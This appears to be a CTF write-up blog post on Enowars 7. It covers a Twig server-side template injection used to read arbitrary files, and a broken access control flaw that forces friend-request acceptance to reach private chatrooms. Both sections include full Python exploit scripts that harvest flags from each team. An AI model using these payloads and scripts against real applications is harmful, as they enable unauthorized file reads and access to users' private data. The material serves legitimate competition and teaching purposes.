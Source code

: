 ```yaml
---
layout: post
title: Enowars 7
---
```


# Oldschool - Twig SSTI

One of the many vulnerabilities from this service was SSTI. The program is using the twig templating engine so a payload like `{{7*7}}` will result in `49`

![about me page]({{ site.baseurl }}/images/enowars/about.png)

We exploiting this in the "About me" section of the user profile

![ssti code]({{ site.baseurl }}/images/enowars/sstivuln.png)

As a result of this snipped of code. we can pass SSTI payloads into service.

From testing it seemed RCE was not going to work. We still had file read which is enough for us to exploit this. The following payload is used for file read:
`{{ source("grades/file_to_read") }}`
This would result in an error on the page so it was wrapped in a comment:

Final payload: `<!-- &#123;&#123; source("file_we_want_to_read") &#125;&#125;  --!>`



So we can read any file we want. but we need to read flag files! Looking at the attack.json endpoint we can see what flagstores are useful for Oldschool.

![attack json file]({{ site.baseurl }}/images/enowars/attackjson.png)


A file is being upload and named `randomints_md5hash` this md5 hash. From looking at our own box these files are being saved in `/services/grades/` 

so we need to read grades/FLAG_ID

I tested this on the NOP team with a simple payload of :
`<!-- {{ source("grades/138219_1143facd439275abb0caed4979e4f8bf") }} --!>` 
and sure enough. the flag was in the source of the page. Now it was just a matter of writing an exploit script that will go to each team and grab that flag. 

## Exploiting
We need to automate out exploit in order to exploit all the teams. To do this, we need a few "stages" to our exploit. the basic plan is:
- Create an account
- Using that account update About me with out SSTI payload
- Retrieve and submit the flag


We used a random string for the username and password for each account and would make a new account for each attack. The following code will make an account for us:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
```

We than update our profile "about me" with out payload and grab the results of the page:

```python
payload = {'about_me': '<!--{{ source("grades/'+FLAGID+'") }}-->'}
session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text
```

FLAGID and IP are taken from the attack.json endpoint.

We used this bit of code to only return the flag string from out exploit script:
```python
flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
flags = flag_regex.findall(profile_page)

print(flags)
```


Our exploit manager handles the submitting of the flag. so printing it out like that is enough for this script.

![attack json file]({{ site.baseurl }}/images/enowars/gotflag.png)


Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json

letters = string.ascii_lowercase

def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID = extra[x]['1'][0].split(' ')[-1]

	session = requests.Session()

	username = rand_string(10)
	password = rand_string(10)

	payload = {'about_me': '<!--{\% include "grades/'+FLAGID+'" \%}--> <!--{{ source("grades/'+FLAGID+'") }}-->'}

	session.post(f"http://{ip}:9080/index.php?action=register", data={"username":username,"password":password})
	session.post(f"http://{ip}:9080/index.php?action=profile", data=payload)
	profile_page = session.get(f"http://{ip}:9080/index.php?action=profile").text

	flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
	flags = set(flag_regex.findall(profile_page))
	for flag in flags:
		print(flag)
```

# asocialnetwork - Broken Access Control

This was wonderfully made social media app. 
![home page]({{ site.baseurl }}/images/enowars/asocialnetwork.png)


We found from tulip that the Chatroom will contain a flag. The chatroom that has a flag was the room that a user from the `attack.json` file was a part of. The only issue is in order to know that room this user is a part of, you must be their friend, and making friends is hard so lets force them to be our friend.

When you send a friend request the following request is made:
`partner=THEIRNAME&userName=YOURNAME&status=send`

```node
if (req.body.status === 'accept') {
    if (!friend) {
        res.status(400).send('Acceptance Request not found')
        return
    } else {
        friend.status = 'accepted'
        await friend.save()
    }
}

```

however, you can force them to accept your friend request by changing "send" to "accept" 

There is no check to ensure the user accepting the request is not the user that sent the request. 

So now that we are suddenly very popular. we can view our new friend profile and see what rooms they are part of. (I don't have any screenshots of this from the live CTF). Viewing their profile gave us a room ID. this room ID was not valid to just join the chatroom. From review of the source code we needed to get the sha256 of that ID. This would let us join the chatroom and get the flag.

## Exploiting

For this exploit we need to:
- Make a new account
- Send a friend request to our new friend
- Force them to accept it.
- get the sha256sum of the room ID
- Visit the room and get the flag

First bit is done with this:
```python
session = requests.Session()
username = rand_string(10)
password = rand_string(10)

session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
```

We can than send and accept the friend request with this:
```python
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})
session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})
```

The final part is to go to our new friends page. get the ID, hash it and view the chatroom:
```python
friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
test = re.search(pattern,friend_page)
roomid_tmp = test.group(1).encode('utf-8')
roomid = hashlib.sha256(roomid_tmp).hexdigest()

chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

```

Full script:
```python
#!/usr/bin/python3
import requests
import random
import string
import re
import os
import json
import hashlib


letters = string.ascii_lowercase
def rand_string(num):
	return ''.join(random.choice(letters) for i in range(num))

ip = os.getenv('TARGET_IP')
extra = json.loads(os.getenv('TARGET_EXTRA'))

for x in extra.keys():
	FLAGID =json.loads(extra[x]['1'][0])['username']
	#print(FLAGID)
	try:
		session = requests.Session()
		username = rand_string(10)
		password = rand_string(10)

		session.post(f"http://{ip}:3000/register", data={"username":username,"password":password,"confirmPassword":password})
		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"send"})

		session.post(f"http://{ip}:3000/friends/requests/", data={"partner":FLAGID,"userName":username,"status":"accept"})

		friend_page = session.get(f"http://{ip}:3000/profile/{FLAGID}").text
		pattern = r'<div class="room">\s*<h3>(.*?)</h3>'
		test = re.search(pattern,friend_page)
		roomid_tmp = test.group(1).encode('utf-8')
		roomid = hashlib.sha256(roomid_tmp).hexdigest()

		chatroom = session.get(f"http://{ip}:3000/chatroom/{roomid}").text

		flag_regex = re.compile('ENO[A-Za-z0-9+/=]{48}')
		flags = flag_regex.findall(chatroom)
		for flag in set(flags):
			print(flag)
	except Exception as e:
		print(e)
```


